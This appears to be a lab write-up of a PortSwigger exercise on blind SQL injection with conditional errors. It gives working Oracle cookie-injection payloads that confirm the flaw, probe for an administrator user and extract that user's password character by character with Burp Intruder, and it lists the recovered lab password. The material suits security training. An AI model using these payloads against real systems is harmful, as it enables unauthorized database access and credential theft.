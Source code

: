 
### Blind SQL injection with conditional errors : PRACTITIONER

---

> Test that the cookie is vulnerable.
> Try adding `'`, we get an error. This implies that there is a vulnerability.
> Try closing `''`, and it works normally. This is implies there is a vulnerability, but we need to ensure that the SQL code is indeed interpreted.

> Try inputting a query that is correct, so if it works, we know that our SQL statements are interpreted.
```
rA16s0b3PCRhyQB4' AND (SELECT '')='' --
rA16s0b3PCRhyQB4' || (SELECT '') || ' --
```
> This query is correct, but its also causing an error. Might be oracle dbms, so try adding the `FROM DUAL` after the select.
```
rA16s0b3PCRhyQB4' AND (SELECT '' FROM DUAL)='' --
rA16s0b3PCRhyQB4' || (SELECT '' FROM DUAL) || ' --
``` 
> The page responds normally, meaning that it is an oracle dbms, and that our sql code was interpreted.

> We now are sure that it is vulnerable, as both a wrong and correct query where inputted, and they were interpreted. The wrong one was without the `FROM DUAL` clause.

> We now want to check if there is a users table.
```
rA16s0b3PCRhyQB4' AND (SELECT '' FROM users WHERE ROWNUM=1)='' --
rA16s0b3PCRhyQB4' || (SELECT '' FROM users WHERE ROWNUM=1) || ' --
```
> Cannot use the `LIMIT 1` syntax as it is not supported by oracle.

> Now we check for the presence of the administrator user.
> For an easier expression, use string concatenation instead of equality checks.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || ' --
```
> This returns an error, meaning that the 'administrator' user exists. To elaborate, try a wrong user, such as `asfas`. The query will work normally, because the FROM part is not correct, and hence the select case portion won't run.
> Our blind injection works through error conditioning. We allow the error condition to happen once something that we desire is true. In our case, we desired the 'administrator' user to exist. If it exists, we trigger an error, signalling us that what we desire occurs.

> Now we need to enumerate the password of the admin user.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password) > 20) || ' --
```
> Keep trying, or use the BURPSUITE INTRUDER spider tool to change the length until we don't get an error. Again, if we get an error, this means we are on the right path.
> Our password has length of 20, now to enumerate all its characters, use the BURPSUITE INTRUDER clusterbomb tool to change both the index and character.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1) = 'a') || ' --
```

> Let the indices be from 1 to 20.
> Let the characters be from a-z and 0-9

> As [[Portswigger/SQL Injection/Lab 12]], conduct the attack and watch for the different response sizes or status codes. See the size corresponding to errors and use those to obtain results. Use status code 500 representing errors to obtain results.

1 - 7
2 - s
3 - s
4 - j
5 - u
6 - 0
7 - m
8 - y
9 - z
10 - 3
11 - h
12 - g
13 - q
14 - x
15 - 1
16 - q
17 - 0
18 - i
19 - l
20 - l

> Assemble password and login to complete lab.
---
